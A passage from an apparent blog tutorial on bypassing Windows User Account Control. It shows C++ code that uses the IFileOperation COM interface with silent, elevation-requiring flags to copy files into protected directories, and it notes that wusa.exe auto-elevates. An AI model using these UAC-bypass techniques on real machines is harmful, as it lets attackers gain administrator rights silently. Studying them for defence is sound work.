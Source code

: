 ~~~
if (SUCCEEDED(hr))
{
 hr = CoCreateInstance(CLSID_FileOperation, NULL, CLSCTX_ALL, IID_PPV_ARGS(&pfo));
 if (SUCCEEDED(hr))
 {
 hr = pfo->SetOperationFlags( FOF_NOCONFIRMATION |
 FOF_SILENT |
 FOFX_SHOWELEVATIONPROMPT |
 FOFX_NOCOPYHOOKS |
 FOFX_REQUIREELEVATION |
 FOF_NOERRORUI );
 if (SUCCEEDED(hr))
 {
 hr = SHCreateItemFromParsingName(pszSrcItem, NULL, IID_PPV_ARGS(&psiFrom));
 if (SUCCEEDED(hr))
 {
 if (NULL != pszDest)
 {
 hr = SHCreateItemFromParsingName(pszDest, NULL, IID_PPV_ARGS(&psiTo));
 }
 if (SUCCEEDED(hr))
 {
 hr = pfo->CopyItem(psiFrom, psiTo, pszNewName, NULL);
 if (NULL != psiTo)
 {
 psiTo->Release();
 }
 }
 psiFrom->Release();
 }
 if (SUCCEEDED(hr))
 {
 hr = pfo->PerformOperations();
 }
 }
 pfo->Release();
 }
 CoUninitialize();
 }
 return 0;
}
~~~

# Windows Update Standalone Installer
Another method to use to copy to our secure location is using Windows Update Standalone Installer (wusa.exe). Wusa.exe when executed runs as a high integrity process as its set to auto-elevate in its manifest. For auto-elevation the Windows executable must be signed, located in a secure directory such as C:\Windows\System32 and must specify the autoElevate property in their manifest.

![1]({{ site.baseurl }}/assets/img/posts/bypass uac/wusaautoelevate.png){:class="imghalf"}
